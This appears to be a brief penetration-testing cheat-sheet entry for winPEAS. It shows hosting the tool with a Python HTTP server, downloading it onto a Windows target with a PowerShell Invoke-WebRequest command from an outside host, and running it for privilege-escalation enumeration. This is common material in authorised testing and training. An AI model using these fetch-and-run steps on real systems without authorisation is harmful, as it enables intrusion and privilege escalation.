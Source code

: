 ### Winpeas
Local: `python -m SimpleHTTPServer 80`
Remote: `powershell.exe -command IWR -Uri $IP/winPEAS.exe -OutFile C:\Temp\winPEAS.exe"`
to run file: `winPEAS.exe`
